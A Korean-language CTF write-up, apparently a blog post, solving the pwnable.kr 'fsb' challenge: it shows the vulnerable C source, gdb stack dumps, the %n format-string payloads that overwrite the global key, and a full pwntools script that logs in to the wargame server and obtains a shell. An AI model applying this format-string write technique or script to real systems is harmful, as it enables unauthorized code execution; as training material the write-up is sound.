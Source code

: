 ```yaml
---
title: 1st Problem - dowoo
date: 2018-12-13
tags: [pwnable]
author: arizona
type: post
---
```


### http://pwnable.kr - Rookiss - fsb 

{{<r "deadline">}} - 2018.12.18 {{<p "18:00">}}


딱봐도 문제가 format string bug.. ㅎㅎㅎ\
일단 소스코드를 보쟙 cat fsb.c !<br>

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

우와우 ㅎㅎㅎㅎ 아주 길당 ㅎㅎ main 첫줄부터 보즈아!\
일단은..main 에서 O_RDONLY 는 읽기, O_WRONLY 는 쓰기, RDWR 는 읽기 쓰기 니깡..\
*read only* 로 /dev/urandom 파일을 읽어소 .. key 라는 전역변수에 값을 8바이트 저장!
읽기에 실패하거나.. read() 함수가 8바이트 저장을 몬한다면..(urandom 파일이 작을떄?) 에러 빼액\
다음.. alloca 함수는 , malloc 과 비스무리한 함순데.. heap 말고 stack 에 할당한다구행..
만약 buffer overflow 가 일어나면 문제가 되는 함수라.. 별로 쓰진 않는뎅!\
어쩃든.. 0x12345 와 key 를 and 연산한 만큼을 stack 에 할당.. 왜있지?;;\
그다음 fsb 함수를 보면.. argv(\*\*) 라는 포인터배열, envp(\*\*) 라는 이중포인터가 인자닷\
<br>
args(\*\*) 란 포인터 배열에, "/bin/sh"(\*),0 이라는.. 배열주소(\*) 하나와 NULL 값을 넣어준당! 
args[0] = "/bin/sh"
pargv(\*\*\*) 는, args(\*\*)의 주소고..envp 도 똑같이 하고,,for 문은
argv[0] 부터 시작해서.. `**argv` 가 `'\0'` 이 아니라면.. \*\*argv=argv[0][0]= '\0'
쭉쭉 .해서  결국 argv 초기화! 그다음포문은 envp 초기화!
args 라는 배열 포인터 마저 초기화! -> 배열 포인터로 받았기에 가능.. 
<br>
그다음 우리의 취약한 printf(buf) 가 나온다.. 이런거 요즘 누가쓰노?ㅠㅠ
쩃든 취약점은 허접하긴한데.. 이걸 4번이나 기회를 준다니.. 뚤릴것 같긴 한데 어떤방법이 있으까..??
쨋든,, 코드를 마져 보면 8바이트 짜리 전역변수 key 와,  나중에 입력받을 변수 pw 가 같으면 짜잔 하고 쉘 떨어진당. 따라서 key 에 써있는 값을 컨트롤 하는게 중요하겠디!

일단 buf 에 저장해서 그걸 printf 인자로 집어넣는 구조고.. 여기다가 %x 쓰면 고냥 \*(esp+4) 값이 톡 튀어나온다는 소리다. 일단 read 이전 함수에 break 를 걸어놓고 메모리 스택을 보자.

disas fsb 로 보면.. 

```sh
   0x080485e7 <+179>:   call   0x80483f0 <printf@plt>
   0x080485ec <+184>:   movl   $0x64,0x8(%esp)
   0x080485f4 <+192>:   movl   $0x804a100,0x4(%esp)
   0x080485fc <+200>:   movl   $0x0,(%esp)
   0x08048603 <+207>:   call   0x80483e0 <read@plt>
   0x08048608 <+212>:   mov    $0x804a100,%eax
   0x0804860d <+217>:   mov    %eax,(%esp)
   0x08048610 <+220>:   call   0x80483f0 <printf@plt>
   0x08048615 <+225>:   addl   $0x1,-0x1c(%ebp)
   0x08048619 <+229>:   cmpl   $0x3,-0x1c(%ebp)
```
요따구 어셈블리어가 있는데.. 딱 저기 부분인거 보이제?
그렇담 0x080485ec 에 브레이크 해놓고 보잡 b \*0x080485ec 

```sh
(gdb) x/50x $esp
0xffa03aa0:     0x08048878      0x00000001      0x00000000      0x00000000
0xffa03ab0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03ac0:     0x00000000      0x08048870      0x00000000      0x00000000
0xffa03ad0:     0xffa05c48      0xffa06fe9      0xffa03af0      0xffa03af4
0xffa03ae0:     0x00000000      0x00000000      0xffa05b48      0x08048791
0xffa03af0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b30:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa03b60:     0x00000000      0x00000000
```

흠.. key 의 주소를 알아보쟙

```sh
(gdb) p &key
$1 = (<data variable, no debug info> *) 0x804a060 <key>
```

오옹이.. 여기서 그럼 0x804a60 이랑 0x804a64 이거 두부분을 덮으면 되니까.. %n 을 이용하려면,, 이 값이 메모리 어딘가에 써있어야겠네 일단.. 음??? 없잖아? ㅠㅠㅠ
다행이도 0xffa03ad8 부분 메모리가 0ffa03af0 이야 ㅠㅠ 이런게 없으면 우짜지.. 어쨋든 있으니까 이걸 써먹어보쟈. 음 일단 그럼 0xffa03af0 부분에 0x804a060 을 써넣어야겠지?

그렇다면,, 일단 이건 printf 의 ( esp - 0xffa03ad8 - 4 )/4 = 14 번째 페이크변수가 될태구,, 쓸 값은 0x804a060 = 134520928 이니까.. %134520928c%14$n 을 넣어주면 되겠따!!

아까 3번쨰 printf 밑 0x08048619 에 break 를 걸어놓고 입력해보즈아 !

앗 ㅎㅎ 근데 이거 실행할떄마다 esp 가 바껴서 조금 바꼈어 ㅎㅎㅎ 미안하다!!

```sh
0xffa79ca0:     0x0804a100      0x0804a100      0x00000064      0x00000000
0xffa79cb0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79cc0:     0x00000000      0x08048870      0x00000000      0x00000001
0xffa79cd0:     0xffa8a038      0xffa8bfe9      0xffa79cf0      0xffa79cf4
0xffa79ce0:     0x00000000      0x00000000      0xffa89f38      0x08048791
0xffa79cf0:     0x0804a060      0x00000000      0x00000000      0x00000000
0xffa79d00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d30:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffa79d60:     0x00000000      0x00000000
```

오우 잘들어갔엉 ! 그러면 이제 key 의 앞 4바이트를 때워보자. 마찬가지로 
( esp - 0xffa79cf0 - 4 )/4 = 20 번째니까, 여기다가 0 을 넣어서 key 를 0으로 만들어버리쟝!\
그러면 %20$n 을 넣으면 되것다!! 일단 넣기전 key 앞 4바이트 0x0804a060 값을 보면, 

```sh
(gdb) p *0x0804a060
$4 = -1282287952
```
요로코롬 돼있지? ㅎㅎ %20$n 넣어보고 다시 해보쟙!
```sh
(gdb) p *0x0804a060
$5 = 0
```

짜잔  0 됐따능 ! ㅎㅎ 밑에 4바이트도 바꿔보즈아. 당연하지만 +4 주소값이니까
%134520932c%14$n , %20$n 을 넣어주면 되것지?ㅎㅎ gdb 말고 진짜루 해보쟝.

파이썬으로 짜면 요따구야!

```python
from pwn import *
import time
shell = ssh("fsb", "pwnable.kr", password = "guest", port = 2222)
p = shell.run("/home/fsb/fsb")
p.sendline("%134520928c%14$n")
print(p.recvuntil("\n"))
print(p.recvuntil("\n"))
p.sendline("%20$n")
print(p.recvuntil("\n"))
print(p.recvuntil("\n"))
p.sendline("%134520932c%14$n")
print(p.recvuntil("\n"))
print(p.recvuntil("\n"))
p.sendline("%20$n")
p.interactive()
```

```sh
Wait a sec...
key :
0
Congratz!
$ id
uid=1046(fsb) gid=1046(fsb) egid=1047(fsb_pwn) groups=1047(fsb_pwn),1046(fsb)
```


짜잔 cat flag !
```sh
$ cat flag
Have you ever saw an example of utilizing [n] format character?? :(
```